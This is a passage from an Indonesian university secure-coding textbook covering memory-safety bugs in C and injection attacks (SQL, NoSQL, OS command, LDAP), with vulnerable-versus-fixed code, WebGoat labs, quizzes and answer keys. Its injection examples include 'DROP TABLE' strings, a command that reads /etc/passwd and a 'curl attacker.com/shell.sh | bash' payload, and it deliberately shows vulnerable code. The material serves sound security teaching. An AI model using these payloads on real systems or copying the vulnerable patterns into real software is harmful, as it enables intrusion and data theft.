

---

## 3. Pengantar Kontekstual

Kerentanan memori adalah salah satu kelas kerentanan paling berbahaya dalam sejarah keamanan komputer. Meskipun sebagian besar pengembangan modern menggunakan bahasa tingkat tinggi yang *memory-safe* (Python, Java, JavaScript, Go), kode C dan C++ masih mendominasi kernel sistem operasi, firmware, driver perangkat keras, sistem embedded, dan banyak komponen infrastruktur kritis.

Microsoft melaporkan bahwa ~70% kerentanan keamanan di produk mereka selama dekade terakhir disebabkan oleh masalah keamanan memori. Google menemukan hal serupa untuk Chromium. NSA Amerika Serikat pada 2022 mengeluarkan panduan yang merekomendasikan transisi ke bahasa *memory-safe* untuk infrastruktur kritis baru — sebuah pernyataan signifikan dari badan intelijen terkemuka.

---

## 4. Landasan Teori

### 4.1 Stack Buffer Overflow (CWE-787, CWE-121)

**Bagaimana Stack Bekerja:**
Stack adalah area memori yang digunakan untuk menyimpan variabel lokal fungsi, parameter, dan *return address* (alamat instruksi berikutnya setelah fungsi selesai). Stack tumbuh ke arah alamat memori yang lebih rendah (pada arsitektur x86).

Ketika fungsi dipanggil, stack frame dibuat:
```
[High Address]
  Parameter fungsi
  Return Address      ← Target penyerang
  Saved Frame Pointer
  Variabel lokal 1
  Buffer (array)      ← Tempat overflow terjadi
[Low Address]
```

**Kondisi Buffer Overflow:**
Terjadi ketika data ditulis melebihi batas buffer yang dialokasikan — overflowing ke area memori yang berdekatan, termasuk return address.

```c
// RENTAN — CWE-787/121: Stack Buffer Overflow
void vulnerable_function(char *user_input) {
    char buffer[64];
    strcpy(buffer, user_input);  // BERBAHAYA: tidak ada batas panjang!
    // Jika user_input > 64 bytes, return address di-overwrite
}

// AMAN — Gunakan strncpy dengan batas eksplisit
void safe_function(char *user_input) {
    char buffer[64];
    strncpy(buffer, user_input, sizeof(buffer) - 1);
    buffer[sizeof(buffer) - 1] = '\0';  // Pastikan null-terminated
}
```

**Fungsi C yang Berbahaya vs Aman:**

| Berbahaya | Aman | Catatan |
|---|---|---|
| `strcpy(dst, src)` | `strncpy(dst, src, n)` | Selalu tentukan batas n |
| `strcat(dst, src)` | `strncat(dst, src, n)` | n = sisa ruang di dst |
| `sprintf(buf, fmt, ...)` | `snprintf(buf, n, fmt, ...)` | n = ukuran total buf |
| `gets(buf)` | `fgets(buf, n, stdin)` | gets() **tidak pernah** digunakan |
| `scanf("%s", buf)` | `scanf("%63s", buf)` | Tentukan lebar field |

### 4.2 Use-After-Free (CWE-416)

**Definisi:** Terjadi ketika program mengakses (membaca atau menulis) area memori heap yang sudah dibebaskan dengan `free()`. Ini karena pointer ke memori yang sudah dibebaskan tidak di-set ke NULL.

```c
// RENTAN — CWE-416: Use-After-Free
char *data = malloc(64);
strcpy(data, "sensitive_data");

free(data);  // Memori dibebaskan
// data masih menunjuk ke alamat yang sama!

// Menggunakan data setelah free — BERBAHAYA
printf("Data: %s\n", data);  // Undefined behavior
// Penyerang dapat mengisi memori ini sebelum akses terjadi

// AMAN — Set pointer ke NULL setelah free
free(data);
data = NULL;  // Sekarang dereferencing akan crash dengan jelas, bukan silent UAF
if (data != NULL) {
    printf("Data: %s\n", data);
}
```

**Eksploitasi UAF:** Penyerang dapat meminta alokasi memori yang mengisi blok heap yang sama yang baru saja dibebaskan. Ketika kode rentan mengakses pointer lama, penyerang sebenarnya mengontrol data yang dibaca — dapat digunakan untuk mengontrol alur eksekusi.

**Solusi Modern:** Gunakan *smart pointers* dalam C++:
```cpp
// C++ Modern — Hindari manual memory management
#include <memory>

// AMAN — unique_ptr secara otomatis membebaskan memori
auto data = std::make_unique<char[]>(64);
// Tidak perlu free() manual; tidak bisa UAF
```

### 4.3 Format String Vulnerability (CWE-134)

**Definisi:** Terjadi ketika input pengguna digunakan langsung sebagai format string dalam fungsi printf-family tanpa format specifier.

```c
// RENTAN — CWE-134: Format String Vulnerability
void vulnerable(char *user_input) {
    printf(user_input);  // BERBAHAYA!
    // Jika user_input = "%p %p %p %p" → membaca alamat stack!
    // Jika user_input = "%n" → menulis ke memori!
}

// AMAN — Selalu gunakan format specifier literal
void safe(char *user_input) {
    printf("%s", user_input);  // Input diperlakukan sebagai string biasa
}
```

**Bahaya %n:** Format specifier `%n` menulis jumlah karakter yang sudah dicetak ke alamat yang ditunjuk oleh argumen berikutnya. Ini dapat dieksploitasi untuk menulis nilai arbitrer ke lokasi memori yang dipilih penyerang.

### 4.4 Integer Overflow (CWE-190)

**Definisi:** Terjadi ketika operasi aritmetika menghasilkan nilai yang melebihi kapasitas tipe data yang digunakan.

```c
// RENTAN — CWE-190: Integer Overflow
void copy_data(int user_size) {
    // Jika user_size = 2147483647 (INT_MAX), 
    // user_size + 1 akan menjadi negatif (overflow)!
    int buffer_size = user_size + 1;
    char *buffer = malloc(buffer_size);
    // malloc dengan nilai negatif → allocate sangat sedikit → overflow!
}

// AMAN — Periksa overflow sebelum aritmetik
void safe_copy(size_t user_size) {
    // Gunakan size_t (unsigned), periksa batas atas
    if (user_size > MAX_ALLOWED_SIZE || user_size + 1 < user_size) {
        // Overflow terdeteksi
        return error;
    }
    size_t buffer_size = user_size + 1;
    char *buffer = malloc(buffer_size);
    // ...
}
```

### 4.5 Mitigasi Tingkat Sistem

Meskipun mitigasi kode-level adalah pertahanan pertama, sistem operasi modern menyediakan mitigasi tambahan:

| Mitigasi | Cara Kerja | Bypass Potential |
|---|---|---|
| **Stack Canary** | Nilai acak antara buffer dan return address; crash jika dimodifikasi | Overwrite parsial, info leak |
| **ASLR** (Address Space Layout Randomization) | Randomisasi alamat memori setiap eksekusi | Info leak, heap spray |
| **NX/DEP** (No-Execute/Data Execution Prevention) | Tandai stack/heap sebagai non-executable | ROP (Return-Oriented Programming) |
| **SafeStack** (LLVM) | Pisahkan stack untuk data yang mungkin overflow | Lebih kuat dari canary biasa |

**Penting:** Mitigasi sistem adalah pertahanan berlapis — bukan pengganti untuk kode yang aman. "Defense in Depth" berlaku di sini.

---

## 5. Model atau Arsitektur

### 5.1 Alur Eksploitasi Stack Buffer Overflow (Konseptual)



---

## 6. Contoh Terapan

### Studi Kasus: Analisis dan Remediasi Kode C yang Rentan

**Kode Asli yang Rentan:**
```c
#include <stdio.h>
#include <string.h>

// RENTAN: Fungsi pemrosesan nama file
int process_filename(char *filename) {
    char clean_name[128];
    char log_msg[64];
    
    // Kerentanan 1: Stack BOF - tidak ada batas
    strcpy(clean_name, filename);
    
    // Kerentanan 2: Format String - input langsung ke printf
    sprintf(log_msg, filename);  // BERBAHAYA
    printf(log_msg);             // BERBAHAYA
    
    // Kerentanan 3: Integer tidak diperiksa
    int len = strlen(filename);
    char *buffer = malloc(len + 1);
    memcpy(buffer, filename, len + 1);
    
    free(buffer);
    // Kerentanan 4: UAF jika buffer diakses lagi
    return strlen(buffer);  // UAF!
}
```

**Kode Setelah Remediasi:**
```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <limits.h>

// AMAN: Versi yang telah diremediasi
int process_filename_safe(const char *filename) {
    if (filename == NULL) return -1;
    
    // Fix 1: Gunakan batas eksplisit
    char clean_name[128];
    strncpy(clean_name, filename, sizeof(clean_name) - 1);
    clean_name[sizeof(clean_name) - 1] = '\0';
    
    // Fix 2: Format string literal, bukan variabel
    char log_msg[200];
    snprintf(log_msg, sizeof(log_msg), "Processing: %s", clean_name);
    printf("%s\n", log_msg);  // Format string literal
    
    // Fix 3: Validasi panjang dan batas integer
    size_t len = strnlen(filename, PATH_MAX);
    if (len >= PATH_MAX) return -1;  // Tolak input terlalu panjang
    
    char *buffer = malloc(len + 1);
    if (buffer == NULL) return -1;  // Periksa alokasi
    
    memcpy(buffer, filename, len + 1);
    int result = (int)len;
    
    // Fix 4: Set NULL setelah free
    free(buffer);
    buffer = NULL;
    
    return result;  // Kembalikan panjang, bukan akses buffer setelah free
}
```

---

## 7. Praktikum — Identifikasi dan Remediasi Kerentanan Memori

**Tujuan:** Mengidentifikasi pola kerentanan memori dalam kode C yang disediakan dan menulis versi yang aman.

**Lingkungan:** VM Linux dengan GCC, Valgrind (memory error detector), AddressSanitizer.

**Kompilasi dengan AddressSanitizer:**
```bash
# Compile dengan AddressSanitizer untuk deteksi otomatis
gcc -fsanitize=address -fno-omit-frame-pointer -g \
    vulnerable.c -o vulnerable_asan

# Run — ASan akan melaporkan buffer overflow, UAF, dll.
./vulnerable_asan
```

**Tugas:**
1. Compile kode yang disediakan dengan AddressSanitizer
2. Jalankan dengan input yang memicu setiap kerentanan
3. Analisis output ASan untuk memahami kerentanan
4. Tulis versi yang aman
5. Verifikasi perbaikan dengan ASan (tidak ada laporan error)

**Catatan Etika:** Kerentanan dianalisis pada kode yang sengaja dibuat untuk tujuan lab. Tidak ada eksploitasi terhadap sistem nyata.

---

## 8. Latihan Pemahaman

**Soal 1 (PG):** Fungsi C mana yang PALING berbahaya untuk digunakan tanpa validasi?
A. `strncpy()`   B. `gets()`   C. `fgets()`   D. `snprintf()`

**Soal 2 (PG):** Use-After-Free (UAF) terjadi karena:
A. Buffer dialokasikan terlalu kecil  
B. Pointer tidak di-set NULL setelah `free()` dan kemudian diakses kembali  
C. Format string mengandung `%n`  
D. Integer overflow menyebabkan alokasi memori yang salah

**Soal 3 (Analisis Kode):** Identifikasi semua kerentanan dalam kode berikut dan jelaskan mengapa berbahaya:
```c
void auth_check(char *username, char *password) {
    char user_buf[32];
    char pass_buf[32];
    sprintf(user_buf, username);
    strcpy(pass_buf, password);
    printf("Checking login for: " + user_buf);
}
```

**Soal 4 (Esai):** Jelaskan bagaimana ASLR (Address Space Layout Randomization) mempersulit eksploitasi buffer overflow. Apa kelemahan ASLR dan mengapa ia harus dikombinasikan dengan mitigasi lain?

**Soal 5:** Mengapa transisi dari C/C++ ke bahasa memory-safe seperti Rust atau Go adalah salah satu rekomendasi keamanan jangka panjang dari NSA? Apa trade-off yang dihadapi organisasi yang mempertimbangkan transisi ini?

---

## 9. Latihan Terapan / Studi Kasus

### Studi Kasus: Code Review Komponen Jaringan C

Tim security diminta me-review kode komponen parsing paket jaringan yang ditulis dalam C:

```c
typedef struct {
    uint8_t  type;
    uint16_t length;
    char     data[256];
} Packet;

int parse_packet(const uint8_t *raw_data, size_t raw_len) {
    Packet pkt;
    
    // Copy type dan length
    pkt.type = raw_data[0];
    pkt.length = *(uint16_t *)(raw_data + 1);
    
    // Copy data berdasarkan field length dari paket
    memcpy(pkt.data, raw_data + 3, pkt.length);  // [1]
    
    // Log paket
    char log_buf[512];
    sprintf(log_buf, raw_data + 3);  // [2]
    
    // Process berdasarkan tipe
    if (pkt.type == TYPE_ADMIN) {
        char admin_cmd[64];
        strcpy(admin_cmd, pkt.data);  // [3]
        execute_admin_command(admin_cmd);
    }
    
    return 0;
}
```

**Pertanyaan:**
1. **Identifikasi Kerentanan (C4)**: Identifikasi semua kerentanan pada baris yang ditandai [1], [2], dan [3]. Untuk setiap kerentanan, tentukan: CWE ID, penjelasan teknis, dan skenario eksploitasi yang mungkin (dalam konteks konseptual lab terkontrol).

2. **Remediasi (C4)**: Tulis versi `parse_packet()` yang aman yang memperbaiki semua kerentanan yang Anda temukan. Sertakan komentar yang menjelaskan setiap perbaikan.

---

## 10. Kunci Jawaban dan Pembahasan

**Soal 1 — B (`gets()`):** `gets()` tidak memiliki batas panjang sama sekali — ia akan menerima input sepanjang apapun hingga newline. Ini adalah fungsi yang sudah dinyatakan *deprecated* di C99 dan dihapus di C11. `strncpy()` dan `snprintf()` aman jika digunakan dengan batas yang tepat. `fgets()` sudah memiliki parameter batas.

**Soal 2 — B:** UAF terjadi karena pointer masih menunjuk ke alamat heap yang sudah dibebaskan. Solusinya adalah selalu set pointer ke NULL setelah `free()`.

**Soal 3:** Kerentanan dalam kode:
(a) `sprintf(user_buf, username)` — Format String Vulnerability (CWE-134): `username` langsung sebagai format string; penyerang dapat menggunakan `%p`, `%x`, `%n` untuk membaca/menulis memori.
(b) `strcpy(pass_buf, password)` — Stack Buffer Overflow (CWE-121): tidak ada batas panjang; jika `password` > 32 bytes, overflow terjadi.
(c) `printf("Checking login for: " + user_buf)` — Ini bukan concatenation string yang valid di C; ini adalah pointer arithmetic. Jika `user_buf` adalah "XXXX", ini akan mengakses memori di alamat (pointer string literal + 4 bytes) — undefined behavior dan potential segfault.

---

## 11. Ringkasan Bab

Kerentanan memori — buffer overflow, use-after-free, format string, integer overflow — adalah kelas kerentanan yang fundamental dan berbahaya. Meskipun sering diasosiasikan dengan kode C/C++ lama, mereka tetap relevan karena banyak infrastruktur kritis masih menggunakannya.

Mitigasi di tingkat kode (fungsi aman, validasi batas, null pointer setelah free) adalah pertahanan pertama. Mitigasi sistem (ASLR, NX, Stack Canary) menyediakan lapisan tambahan. Bahasa memory-safe (Rust, Go) adalah arah jangka panjang yang direkomendasikan untuk kode baru.

---

## 12. Refleksi Profesional

**Pertanyaan Refleksi 1:** Rust adalah bahasa yang menjamin memory safety secara compile-time — program Rust tidak bisa memiliki buffer overflow atau use-after-free jika tidak menggunakan blok `unsafe`. Namun, adopsi Rust masih lambat di industri. Apa hambatan utama transisi dari C/C++ ke Rust, dan bagaimana komunitas keamanan seharusnya mendorong adopsi ini?

**Pertanyaan Refleksi 2:** Sebagai security engineer yang me-review kode yang ditulis developer lain, Anda menemukan 15 kerentanan memori yang serius. Bagaimana Anda mengkomunikasikan temuan ini kepada tim developer tanpa menciptakan budaya blame atau mempermalukan developer? Bagaimana Anda membangun proses yang mencegah kerentanan serupa di masa depan?

---

# BAB 5 — INJECTION ATTACKS: SQL, NOSQL, OS COMMAND, DAN LDAP

**Pertemuan:** 5  
**Sub-CPMK:** Sub-CPMK.2  
**CPMK:** CPMK.1, CPMK.2  
**Evaluasi:** Eval-2

---

## 1. Capaian Pembelajaran Bab

Setelah menyelesaikan Bab 5, mahasiswa mampu:

- Menjelaskan mekanisme SQL Injection, NoSQL Injection, OS Command Injection, dan LDAP Injection.
- Mengidentifikasi pola kode yang rentan terhadap injection attacks.
- Menerapkan mitigasi: parameterized queries, input validation, output encoding, ORM aman.
- Membuat proof-of-concept injection di lingkungan lab terkontrol dan mendokumentasikan hasilnya.

---

## 2. Peta Konsep Bab



---

## 3. Pengantar Kontekstual

Injection berada di posisi #3 dalam OWASP Top 10 2021 dan merupakan kategori yang mencakup SQL Injection (CWE-89), OS Command Injection (CWE-78), dan berbagai jenis injeksi lainnya. Meskipun SQL Injection telah dikenal selama lebih dari 25 tahun, ia masih menjadi kerentanan yang ditemukan secara rutin — terutama pada aplikasi yang dikembangkan oleh developer yang tidak familiar dengan secure coding.

Prinsip fundamental dari semua injection attack sama: **data dan perintah tidak dipisahkan dengan jelas**. Input pengguna diperlakukan sebagai bagian dari perintah yang dieksekusi, bukan sekadar data yang diproses.

---

## 4. Landasan Teori

### 4.1 SQL Injection (CWE-89)

**Mekanisme:** Input pengguna langsung dikoncatenasikan ke SQL query, memungkinkan penyerang menyuntikkan SQL tambahan.

**Contoh Kode Rentan:**
```python
# RENTAN — SQL Injection melalui string concatenation
def get_user(username):
    query = "SELECT * FROM users WHERE username = '" + username + "'"
    return db.execute(query)

# Input normal: username = "alice"
# Query: SELECT * FROM users WHERE username = 'alice'

# Input berbahaya: username = "' OR '1'='1"
# Query: SELECT * FROM users WHERE username = '' OR '1'='1'
# → Mengembalikan SEMUA user!

# Input berbahaya: username = "'; DROP TABLE users; --"
# Query: SELECT * FROM users WHERE username = ''; DROP TABLE users; --'
# → Menghapus tabel!
```

**Jenis SQL Injection:**

| Jenis | Cara Kerja | Kegunaan |
|---|---|---|
| **In-band (Error-based)** | Memanfaatkan error message database | Exfiltrasi data via error |
| **In-band (Union-based)** | UNION SELECT untuk menambah data | Baca data dari tabel lain |
| **Blind (Boolean-based)** | Query true/false untuk infer data bit-by-bit | Ketika tidak ada output langsung |
| **Blind (Time-based)** | `SLEEP()` untuk infer data berdasarkan response time | Ketika tidak ada perbedaan visual |
| **Out-of-band** | Eksfiltrasi via DNS atau HTTP request | Ketika semua jalur lain ditutup |

**Mitigasi SQLi:**

```python
# AMAN — Parameterized Query (Python, sqlite3)
def get_user_safe(username):
    # Placeholder ? diisi secara terpisah dari query
    query = "SELECT * FROM users WHERE username = ?"
    return db.execute(query, (username,))  # username diperlakukan sebagai DATA

# AMAN — Parameterized Query (Python, psycopg2/PostgreSQL)
def get_user_psql(username):
    query = "SELECT * FROM users WHERE username = %s"
    cursor.execute(query, (username,))
    return cursor.fetchall()

# AMAN — ORM (SQLAlchemy)
def get_user_orm(username):
    return User.query.filter_by(username=username).first()
    # ORM otomatis menggunakan parameterized query
```

### 4.2 NoSQL Injection (CWE-943)

Meskipun database NoSQL tidak menggunakan SQL, mereka tetap rentan terhadap injection jika input pengguna diintegrasikan tanpa sanitasi.

**Contoh MongoDB Injection (PHP/JavaScript):**
```javascript
// RENTAN — MongoDB Injection
// URL: ?username[$ne]=x → bypass login!
app.post('/login', async (req, res) => {
    const user = await db.users.findOne({
        username: req.body.username,  // Bisa berupa objek!
        password: req.body.password
    });
    // Jika req.body.username = {"$ne": "x"}
    // Query: {username: {$ne: "x"}} → cocok dengan semua!
});

// AMAN — Validasi tipe input
app.post('/login-safe', async (req, res) => {
    // Pastikan input adalah string, bukan objek
    const username = String(req.body.username);
    const password = String(req.body.password);
    const user = await db.users.findOne({
        username: username,
        password: hashPassword(password)
    });
});
```

### 4.3 OS Command Injection (CWE-78)

**Mekanisme:** Input pengguna digunakan dalam perintah OS yang dieksekusi oleh server.

```python
# RENTAN — OS Command Injection
import subprocess

def ping_host(hostname):
    # BERBAHAYA: input langsung ke shell command
    result = subprocess.run(f"ping -c 1 {hostname}", 
                           shell=True, capture_output=True)
    return result.stdout

# Input normal: hostname = "google.com"
# Command: ping -c 1 google.com → OK

# Input berbahaya: hostname = "google.com; cat /etc/passwd"
# Command: ping -c 1 google.com; cat /etc/passwd → RCE!

# Input berbahaya: hostname = "google.com && curl attacker.com/shell.sh | bash"
# → Remote Code Execution!

# AMAN — Gunakan list arguments, bukan shell=True
def ping_host_safe(hostname):
    # Validasi whitelist terlebih dahulu
    import re
    if not re.match(r'^[a-zA-Z0-9.-]+$', hostname):
        raise ValueError("Invalid hostname")
    
    # Gunakan list - subprocess TIDAK menggunakan shell
    result = subprocess.run(
        ["ping", "-c", "1", hostname],  # Setiap argumen terpisah
        shell=False,                     # Tidak melalui shell
        capture_output=True,
        timeout=5
    )
    return result.stdout
```

**Karakter Shell yang Berbahaya:**
`; | & && || $() `` \n %0a > < >> 2>&1`

### 4.4 LDAP Injection (CWE-90)

**Mekanisme:** Input diinjeksikan ke LDAP query yang tidak tersanitasi, memungkinkan bypass autentikasi atau eksfiltrasi direktori.

```java
// RENTAN — LDAP Injection
String filter = "(&(uid=" + username + ")(password=" + password + "))";
NamingEnumeration<SearchResult> results = ctx.search(base, filter, ...);

// Input: username = "*)(uid=*))(|(uid=*"
// Filter: (&(uid=*)(uid=*))(|(uid=*)(password=apapun))
// → Bypass autentikasi!

// AMAN — Escape karakter LDAP khusus
String safeUsername = username
    .replace("\\", "\\5c")
    .replace("*", "\\2a")
    .replace("(", "\\28")
    .replace(")", "\\29")
    .replace("\0", "\\00");
String filter = "(&(uid=" + safeUsername + ")(password={0}))";
// Atau gunakan library LDAP yang mendukung parameterization
```

---

## 5. Model atau Arsitektur

### 5.1 Alur SQL Injection dan Pertahanan Berlapis



---

## 6. Contoh Terapan

### Studi Kasus: SQL Injection pada Aplikasi E-Commerce di Lab Terkontrol (WebGoat)

**Konteks:** Di WebGoat, modul "SQL Injection (Introduction)" menyediakan latihan SQLi yang aman dan terkontrol.

**Latihan 5 — String SQL Injection:**
```
Form: "Enter your last name"
Input rentan: Smith' OR '1'='1

Query yang terbentuk:
SELECT * FROM user_data WHERE last_name = 'Smith' OR '1'='1'

Hasil: Semua record dikembalikan karena '1'='1' selalu true
```

**Mitigasi yang Diimplementasikan:**
```java
// Java — PreparedStatement (Parameterized Query)
String query = "SELECT * FROM user_data WHERE last_name = ?";
PreparedStatement stmt = connection.prepareStatement(query);
stmt.setString(1, lastName);  // lastName diperlakukan sebagai data, bukan SQL
ResultSet rs = stmt.executeQuery();
```

---

## 7. Praktikum — Injection Attack pada WebGoat

**Tujuan:** Memahami mekanisme injection melalui eksploitasi terkontrol dan menerapkan mitigasi.

**Platform:** WebGoat (http://localhost:8080/WebGoat)

**Modul yang Dikerjakan:**
1. SQL Injection (Introduction) — semua lessons
2. SQL Injection (Advanced) — Union-based dan Blind
3. OS Command Injection

**Untuk setiap lesson:** Dokumentasikan payload yang digunakan, query atau command yang dihasilkan, screenshot bukti keberhasilan, dan mitigasi yang seharusnya diterapkan.

---

## 8. Latihan Pemahaman

**Soal 1 (PG):** Mitigasi PALING efektif untuk SQL Injection adalah:
A. Input validation dengan blacklist karakter berbahaya  
B. Menggunakan stored procedures (selalu)  
C. Parameterized queries / prepared statements  
D. WAF (Web Application Firewall)

**Soal 2 (PG):** OS Command Injection lebih sulit dimitigasi daripada SQL Injection karena:
A. OS tidak memiliki parameterized command  
B. Shell memiliki banyak karakter khusus yang sulit di-blacklist sepenuhnya  
C. OS command tidak dapat divalidasi  
D. Hanya terjadi di Windows

**Soal 3 (Analisis Kode):** Identifikasi kerentanan dan tulis perbaikan untuk kode Node.js berikut:
```javascript
app.get('/user', (req, res) => {
  const id = req.query.id;
  const query = `SELECT * FROM users WHERE id = ${id}`;
  db.query(query, (err, result) => res.json(result));
});
```

**Soal 4 (Esai):** Jelaskan mengapa "blacklist filtering" (memblokir karakter seperti `'`, `;`, `--`) tidak memadai sebagai satu-satunya mitigasi SQL Injection, dan mengapa parameterized query lebih fundamental.

**Soal 5:** Sebuah aplikasi menggunakan ORM seperti Django ORM atau Hibernate. Apakah penggunaan ORM secara otomatis melindungi dari SQL Injection? Dalam kondisi apa ORM masih bisa rentan?

---

## 9. Latihan Terapan / Studi Kasus

### Studi Kasus: Remediasi API Endpoint yang Rentan Injeksi

Sebuah API REST Python (Flask) memiliki kode berikut:

```python
from flask import Flask, request, jsonify
import sqlite3, os

app = Flask(__name__)

@app.route('/search')
def search():
    term = request.args.get('q', '')
    conn = sqlite3.connect('products.db')
    # [A] SQLi
    rows = conn.execute(
        f"SELECT * FROM products WHERE name LIKE '%{term}%'"
    ).fetchall()
    return jsonify(rows)

@app.route('/report')
def report():
    format_type = request.args.get('type', 'pdf')
    filename = request.args.get('file', 'report')
    # [B] Command Injection
    os.system(f"convert {filename}.html {filename}.{format_type}")
    return "Report generated"

@app.route('/user')
def get_user():
    user_id = request.args.get('id')
    conn = sqlite3.connect('users.db')
    # [C] SQLi + No parameterized
    result = conn.execute(
        "SELECT name, email, ssn FROM users WHERE id = " + user_id
    ).fetchone()
    return jsonify(result)
```

**Pertanyaan:**
1. **Analisis (C4)**: Untuk setiap titik [A], [B], [C], identifikasi: jenis kerentanan, CWE, payload eksploitasi yang mungkin, dan dampak potensial pada CIA.

2. **Remediasi Lengkap (C4)**: Tulis versi aman dari ketiga endpoint di atas. Untuk [A] dan [C] gunakan parameterized query; untuk [B] gunakan subprocess dengan shell=False dan validasi whitelist; tambahkan error handling yang tepat.

---

## 10. Kunci Jawaban dan Pembahasan

**Soal 1 — C (Parameterized Queries):** Parameterized queries adalah mitigasi fundamental karena memisahkan kode SQL dari data secara struktural — tidak ada cara bagi input pengguna untuk menjadi bagian dari kode SQL. Blacklist (A) tidak lengkap — selalu ada cara untuk bypass. Stored procedures (B) aman HANYA jika diimplementasikan dengan parameterized input, bukan dengan string concatenation di dalam procedure. WAF (D) berguna sebagai defense-in-depth tetapi bukan pertahanan primer.

**Soal 2 — B:** Shell memiliki puluhan karakter dengan arti khusus dalam berbagai konteks. Blacklist yang tidak lengkap selalu dapat dibypass (encoding URL, unicode, karakter equivalen). Solusi terbaik adalah menghindari eksekusi OS command dari input pengguna sama sekali, atau menggunakan subprocess dengan list arguments (tanpa shell=True).

**Soal 5:** ORM tidak secara otomatis mencegah SQLi jika developer menggunakan "raw query" — fitur yang memungkinkan menulis SQL langsung. Contoh rentan di Django: `User.objects.raw(f"SELECT * FROM users WHERE name = '{name}'")`; di Hibernate: `session.createQuery("FROM User WHERE name = '" + name + "'")`. ORM aman hanya jika digunakan dengan cara yang direkomendasikan (filter(), objects.get(), dsb.) tanpa string concatenation dalam raw queries.

---

## 11. Ringkasan Bab

Injection attacks terjadi ketika batas antara data dan perintah kabur — input pengguna diperlakukan sebagai bagian dari perintah yang dieksekusi. Mitigasi fundamental adalah memisahkan keduanya secara struktural: parameterized queries untuk SQL, subprocess list arguments (tanpa shell=True) untuk OS commands, dan escaping yang tepat untuk LDAP/NoSQL.

---

## 12. Refleksi Profesional

**Pertanyaan Refleksi 1:** SQL Injection telah dikenal sejak 1998 — lebih dari 25 tahun. Namun, ia masih menjadi kerentanan yang umum ditemukan. Apa akar penyebab persistensi masalah ini? Apakah ini masalah pendidikan, insentif, tooling, atau hal lain?

**Pertanyaan Refleksi 2:** Dalam konteks organisasi yang menggunakan AI code assistant (GitHub Copilot, dsb.), apakah tools ini cenderung menghasilkan kode yang aman atau rentan terhadap injection? Apa implikasi dari adopsi AI code generation terhadap keamanan perangkat lunak secara industri?

---


---

# BAB 6 — XSS, CSRF, DAN SSRF

**Pertemuan:** 6  
**Sub-CPMK:** Sub-CPMK.2  
**CPMK:** CPMK.1, CPMK.2  
**Evaluasi:** Eval-2

---

## 1. Capaian Pembelajaran Bab

Setelah menyelesaikan Bab 6, mahasiswa mampu:

- Membedakan tiga jenis XSS: Reflected, Stored, dan DOM-based.
- Menjelaskan mekanisme CSRF dan bagaimana token CSRF mencegah serangan.
- Menjelaskan SSRF dan mengapa menjadi sangat berbahaya dalam lingkungan cloud.
- Menerapkan mitigasi: output encoding, CSP, SameSite cookie, CSRF token, allowlist URL.

---

## 2. Peta Konsep Bab

